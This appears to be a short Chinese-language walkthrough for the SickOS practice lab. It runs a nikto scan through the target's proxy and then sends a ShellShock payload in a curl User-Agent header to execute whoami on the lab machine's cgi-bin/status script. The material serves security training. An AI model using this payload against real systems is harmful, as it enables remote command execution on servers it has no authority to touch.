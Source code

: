 

# 另外一种渗透思路

## 1.nikto漏洞扫描

使用`nikto`对靶机进行漏洞扫描, 发现在网站的`cgi-bin/status`目录下疑似存在ShellShock漏洞

```
nikto -h 192.168.47.157 -useproxy http://192.168.47.157:3128
```

<img src="SickOS靶场/image-20221205155106227.png" alt="image-20221205155106227" style="zoom:67%;" />	



## 2.ShellShock漏洞利用

尝试使用ShellShock漏洞的exp, 执行whoami命令, 页面输出命令的执行结果

```
curl --proxy http://192.168.47.157:3128 -H "User-Agent:() { :;};echo;/usr/bin/whoami" http://192.168.47.157/cgi-bin/status
```

![image-20221205155244611](SickOS靶场/image-20221205155244611.png)
